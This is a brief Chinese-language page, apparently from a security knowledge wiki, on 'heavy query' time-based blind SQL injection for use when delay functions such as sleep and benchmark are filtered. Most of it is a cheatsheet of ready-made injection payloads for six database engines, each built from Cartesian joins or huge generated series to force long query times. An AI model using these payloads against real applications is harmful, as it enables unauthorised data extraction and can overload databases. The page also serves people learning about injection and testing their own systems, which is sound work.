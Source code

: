 ## 为什么需要大负荷查询

当一些造成时间延迟的函数无法在注入中使用的时候，例如 mysql 以下这些函数被过滤的情况：

- sleep
- benchmark
- Get_lock
- 或许有更多

我们可以使用 **heavy query** 进行延时注入，使数据库的查询时间尽量变长。例如让 information_schema 的两个大表做笛卡尔积等语句。注: 使用 benchmark 进行注入原则上也属于 heavy query 的范围内, 但这里不再描述。

## cheatsheet

- PostgreSQL
    - AND 2333=(SELECT COUNT(*) FROM GENERATE_SERIES(1,1000000000))
- MSSQL
    - AND 2333=(SELECT COUNT(*) FROM sysusers AS sys1,sysusers AS sys2,sysusers AS sys3,sysusers AS sys4,sysusers AS sys5,sysusers AS sys6,sysusers AS sys7)
- Oracle
    - AND 2333=(SELECT COUNT(*) FROM ALL_USERS T1,ALL_USERS T2,ALL_USERS T3,ALL_USERS T4,ALL_USERS T5)
- IBM DB2
    - AND 2333=(SELECT COUNT(*) FROM SYSIBM.SYSTABLES AS T1,SYSIBM.SYSTABLES AS T2,SYSIBM.SYSTABLES AS T3)
- SQLite
    - AND 23333=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(100000000/2))))
- Mysql
    - AND (SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.SCHEMATA C);

## 参考

- https://www.anquanke.com/post/id/104319

